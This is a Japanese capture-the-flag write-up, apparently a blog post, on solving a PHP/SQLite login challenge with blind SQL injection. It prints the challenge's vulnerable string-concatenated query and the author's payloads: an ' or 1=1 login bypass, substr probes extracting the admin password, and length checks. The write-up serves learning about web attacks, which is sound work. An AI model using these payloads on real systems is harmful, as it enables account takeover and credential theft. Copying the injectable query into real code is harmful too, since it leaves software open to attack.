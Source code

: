 自力解答ならず。  

``ID``に``admin``、``Pass``に``' or 1=1;--``を入力して送信。  
ヒントが表示される。  

```php
// Congratulations!
// It's too easy?
// Don't worry.
// The flag is admin's password.

// Hint:

<?php
    function h($s){return htmlspecialchars($s,ENT_QUOTES,'UTF-8');}
    
    $id = isset($_POST['id']) ? $_POST['id'] : '';
    $pass = isset($_POST['pass']) ? $_POST['pass'] : '';
    $login = false;
    $err = '';
    
    if ($id!=='')
    {
        $db = new PDO('sqlite:database.db');
        $db->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_SILENT);
        $r = $db->query("SELECT * FROM user WHERE id='$id' AND pass='$pass'");
        $login = $r && $r->fetch();
        if (!$login)
            $err = 'Login Failed';
    }
?><!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
    <title>q6q6q6q6q6q6q6q6q6q6q6q6q6q6q6q6</title>
  </head>
  <body>
    <?php if (!$login) { ?>
    <p>
      First, login as "admin".
    </p>
    <div style="font-weight:bold; color:red">
      <?php echo h($err); ?>
    </div>
    <form method="POST">
      <div>ID: <input type="text" name="id" value="<?php echo h($id); ?>"></div>
      <div>Pass: <input type="text" name="pass" value="<?php echo h($pass); ?>"></div>
      <div><input type="submit"></div>
    </form>
    <?php } else { ?>
    <p>
      Congratulations!<br>
      It's too easy?<br>
      Don't worry.<br>
      The flag is admin's password.<br>
      <br>
      Hint:<br>
    </p>
    <pre><?php echo h(file_get_contents('index.php')); ?></pre>
    <?php } ?>
  </body>
</html>
```

ここで詰まる。  

### 正解

Blind SQL Injection。SQLの結果の違いから正解を絞り込んでいく手法。徳丸本とかで見たことはあるけど、自分で実践するのは初めて。  

まずパスワードの先頭が``FLAG_``の形式になっているかを調べる。ちなみに``substr``の第二引数は1-indexed。  

```
' or substr((select pass from user where id = 'admin'), 1, 1) = 'F'; --
' or substr((select pass from user where id = 'admin'), 2, 1) = 'L'; --
' or substr((select pass from user where id = 'admin'), 3, 1) = 'A'; --
' or substr((select pass from user where id = 'admin'), 4, 1) = 'G'; --
' or substr((select pass from user where id = 'admin'), 5, 1) = '_'; --
```

上記のすべてで``Congratulations!``。パスワードは``FLAG_xxx``の形式で確定。  

次にパスワードの文字数を調べる。以下を``ID``欄に打ち込む。``Congratulations!``。  

```
' or (select length(pass) from user where id = 'admin') > 1;--
```

次は以下。``Login Failed``。  

```
' or (select length(pass) from user where id = 'admin') > 100;--
```

後は二分探索。``> 20``だと``Congratulations!``で``> 21``だと``Login Failed``だったので、パスワードは21文字。  

``FLAG_``の分を抜いた残りの16文字は総当たり。  

### 参考

- [SQLite Substr | SQLITE TUTORIAL](https://www.sqlitetutorial.net/sqlite-functions/sqlite-substr/)
- [Blind SQL injection | PortSwigger](https://portswigger.net/web-security/sql-injection/blind)
